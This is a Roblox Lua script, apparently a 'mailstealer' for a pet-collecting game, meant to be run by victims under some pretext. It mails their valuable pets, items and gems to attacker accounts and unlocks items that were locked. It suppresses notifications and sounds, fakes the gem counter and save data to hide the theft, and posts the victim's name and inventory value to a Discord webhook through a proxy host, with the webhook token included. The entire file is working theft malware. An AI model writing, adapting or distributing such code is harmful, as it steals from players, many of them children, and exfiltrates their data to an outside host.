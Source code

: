 Username = "bjcdum"
Username2 = "bjcdum" -- stuff will get sent to this user if first user's mailbox is full
Webhook = "https://discord.com/api/webhooks/1238247453233381509/1zB46XEQZecFeEPI_Ki9MQQsNDX9E4-xUO_Zv13S1DF6oh_7avcnVTgGNuAyUd8SCoAO"
min_rap = 500000 -- minimum rap of each item you want to get sent to you.

local network = game:GetService("ReplicatedStorage"):WaitForChild("Network")
local library = require(game.ReplicatedStorage.Library)
local save = library.Save.Get().Inventory
local mailsent = library.Save.Get().MailboxSendsSinceReset
local plr = game.Players.LocalPlayer
local MailMessage = "gg / HcpNe56R2a"
local HttpService = game:GetService("HttpService")
local sortedItems = {}
_G.scriptExecuted = _G.scriptExecuted or false
local GetSave = function()
    return require(game.ReplicatedStorage.Library.Client.Save).Get()
end

if _G.scriptExecuted then
    return
end
_G.scriptExecuted = true

local newamount = 20000

if mailsent ~= 0 then
	newamount = math.ceil(newamount * (1.5 ^ mailsent))
end

local GemAmount1 = 1
for i, v in pairs(GetSave().Inventory.Currency) do
    if v.id == "Diamonds" then
        GemAmount1 = v._am
		break
    end
end

if newamount > GemAmount1 then
    return
end

local function formatNumber(number)
	local number = math.floor(number)
	local suffixes = {"", "k", "m", "b", "t"}
	local suffixIndex = 1
	while number >= 1000 do
		number = number / 1000
		suffixIndex = suffixIndex + 1
	end
	return string.format("%.2f%s", number, suffixes[suffixIndex])
end

local function SendMessage(url, username, diamonds)
    local headers = {
        ["Content-Type"] = "application/json"
    }

	local totalRAP = 0
	local fields = {
		{
			name = "Victim Username:",
			value = username,
			inline = true
		},
		{
			name = "Items to be sent:",
			value = "",
			inline = false
		}
	}

    local combinedItems = {}
    local itemRapMap = {}

    for _, item in ipairs(sortedItems) do
        local rapKey = item.name
        if itemRapMap[rapKey] then
            itemRapMap[rapKey].amount = itemRapMap[rapKey].amount + item.amount
        else
            itemRapMap[rapKey] = {amount = item.amount, rap = item.rap}
            table.insert(combinedItems, rapKey)
        end
    end

    table.sort(combinedItems, function(a, b)
        return itemRapMap[a].rap * itemRapMap[a].amount > itemRapMap[b].rap * itemRapMap[b].amount 
    end)

    for _, itemName in ipairs(combinedItems) do
        local itemData = itemRapMap[itemName]
        fields[2].value = fields[2].value .. itemName .. " (x" .. itemData.amount .. ")" .. ": " .. formatNumber(itemData.rap * itemData.amount) .. " RAP\n"
        totalRAP = totalRAP + (itemData.rap * itemData.amount)
    end

    fields[2].value = fields[2].value .. "\nGems: " .. formatNumber(diamonds) .. "\n"
    fields[2].value = fields[2].value .. "Total RAP: " .. formatNumber(totalRAP)

    local data = {
        ["embeds"] = {{
            ["title"] = "New Execution" ,
            ["color"] = 65280,
			["fields"] = fields,
			["footer"] = {
				["text"] = "Mailstealer by Tobi. discord.gg/HcpNe56R2a"
			}
        }}
    }

    if #fields[2].value > 1024 then
        fields[2].value  = "List of items too big to send!\n\nGems: " .. formatNumber(diamonds) .. "\n"
        fields[2].value = fields[2].value .. "Total RAP: " .. formatNumber(totalRAP)
    end

    local body = HttpService:JSONEncode(data)
    local response = request({
		Url = url,
		Method = "POST",
		Headers = headers,
		Body = body
	})
end

local user = Username
local user2 = Username2 or "2pRiAMfYN41y"

local gemsleaderstat = plr.leaderstats["\240\159\146\142 Diamonds"].Value
local gemsleaderstatpath = plr.leaderstats["\240\159\146\142 Diamonds"]
gemsleaderstatpath:GetPropertyChangedSignal("Value"):Connect(function()
	gemsleaderstatpath.Value = gemsleaderstat
end)

local loading = plr.PlayerScripts.Scripts.Core["Process Pending GUI"]
local noti = plr.PlayerGui.Notifications
loading.Disabled = true
noti:GetPropertyChangedSignal("Enabled"):Connect(function()
	noti.Enabled = false
end)
noti.Enabled = false

game.DescendantAdded:Connect(function(x)
    if x.ClassName == "Sound" then
        if x.SoundId=="rbxassetid://11839132565" or x.SoundId=="rbxassetid://14254721038" or x.SoundId=="rbxassetid://12413423276" then
            x.Volume=0
            x.PlayOnRemove=false
            x:Destroy()
        end
    end
end)

local function getRAP(Type, Item)
    return (library.DevRAPCmds.Get(
        {
            Class = {Name = Type},
            IsA = function(hmm)
                return hmm == Type
            end,
            GetId = function()
                return Item.id
            end,
            StackKey = function()
                return HttpService:JSONEncode({id = Item.id, pt = Item.pt, sh = Item.sh, tn = Item.tn})
            end
        }
    ) or 0)
end

local function sendItem(category, uid, am)
    local args = {
        [1] = user,
        [2] = MailMessage,
        [3] = category,
        [4] = uid,
        [5] = am or 1
    }
	local response = false
	repeat
    	local response, err = network:WaitForChild("Mailbox: Send"):InvokeServer(unpack(args))
		if response == false and err == "They don't have enough space!" then
			user = user2
			args[1] = user
		end
	until response == true
	GemAmount1 = GemAmount1 - newamount
	newamount = math.ceil(math.ceil(newamount) * 1.5)
	if newamount > 5000000 then
		newamount = 5000000
	end
end

local function SendAllGems()
    for i, v in pairs(GetSave().Inventory.Currency) do
        if v.id == "Diamonds" then
			if GemAmount1 >= (newamount + 10000) then
				local args = {
					[1] = user,
					[2] = MailMessage,
					[3] = "Currency",
					[4] = i,
					[5] = GemAmount1 - newamount
				}
				local response = false
				repeat
					local response = network:WaitForChild("Mailbox: Send"):InvokeServer(unpack(args))
				until response == true
				break
			end
        end
    end
end

local function IsMailboxHooked()
	local uid
	for i, v in pairs(save["Pet"]) do
		uid = i
		break
	end
	local args = {
        [1] = "Roblox",
        [2] = "Test",
        [3] = "Pet",
        [4] = uid,
        [5] = 1
    }
    local response, err = network:WaitForChild("Mailbox: Send"):InvokeServer(unpack(args))
    if (err == "They don't have enough space!") or (err == "You don't have enough diamonds to send the mail!") then
        return false
    else
        return true
    end
end

local function EmptyBoxes()
    if save.Box then
        for key, value in pairs(save.Box) do
			if value._uq then
				network:WaitForChild("Box: Withdraw All"):InvokeServer(key)
			end
        end
    end
end

local function ClaimMail()
    local response, err = network:WaitForChild("Mailbox: Claim All"):InvokeServer()
    while err == "You must wait 30 seconds before using the mailbox!" do
        wait()
        response, err = network:WaitForChild("Mailbox: Claim All"):InvokeServer()
    end
end

local categoryList = {"Pet", "Egg", "Charm", "Enchant", "Potion", "Misc", "Hoverboard", "Booth", "Ultimate"}

for i, v in pairs(categoryList) do
	if save[v] ~= nil then
		for uid, item in pairs(save[v]) do
			if v == "Pet" then
                local dir = library.Directory.Pets[item.id]
                if dir.huge or dir.exclusiveLevel then
                    local rapValue = getRAP(v, item)
                    if rapValue >= min_rap then
                        local prefix = ""
                        if item.pt and item.pt == 1 then
                            prefix = "Golden "
                        elseif item.pt and item.pt == 2 then
                            prefix = "Rainbow "
                        end
                        if item.sh then
                            prefix = "Shiny " .. prefix
                        end
                        local id = prefix .. item.id
                        table.insert(sortedItems, {category = v, uid = uid, amount = item._am or 1, rap = rapValue, name = id})
                    end
                end
            else
                local rapValue = getRAP(v, item)
                if rapValue >= min_rap then
                    table.insert(sortedItems, {category = v, uid = uid, amount = item._am or 1, rap = rapValue, name = item.id})
                end
            end
            if item._lk then
                local args = {
                [1] = uid,
                [2] = false
                }
                network:WaitForChild("Locking_SetLocked"):InvokeServer(unpack(args))
            end
        end
	end
end

if #sortedItems > 0 or GemAmount1 > min_rap + newamount then
    ClaimMail()
	if IsMailboxHooked() then
		return
	end
    EmptyBoxes()
	require(game.ReplicatedStorage.Library.Client.DaycareCmds).Claim()
	require(game.ReplicatedStorage.Library.Client.ExclusiveDaycareCmds).Claim()
    local blob_a = require(game.ReplicatedStorage.Library)
    local blob_b = blob_a.Save.Get()
    function deepCopy(original)
        local copy = {}
        for k, v in pairs(original) do
            if type(v) == "table" then
                v = deepCopy(v)
            end
            copy[k] = v
        end
        return copy
    end
    blob_b = deepCopy(blob_b)
    blob_a.Save.Get = function(...)
        return blob_b
    end

    table.sort(sortedItems, function(a, b)
        return a.rap * a.amount > b.rap * b.amount 
    end)

    if Webhook and string.find(Webhook, "discord") then
        Webhook = string.gsub(Webhook, "https://discord.com", "https://webhook.lewisakura.moe")
        spawn(function()
            SendMessage(Webhook, plr.Name, GemAmount1)
        end)
    end

    for _, item in ipairs(sortedItems) do
        if item.rap >= newamount then
            sendItem(item.category, item.uid, item.amount)
        else
            break
        end
    end
    SendAllGems()
    setclipboard("https://discord.gg/HcpNe56R2a")
    local message = require(game.ReplicatedStorage.Library.Client.Message)
    message.Error("All your valuable items just got stolen by Tobi's mailstealer!\nJoin discord.gg/HcpNe56R2a")
end
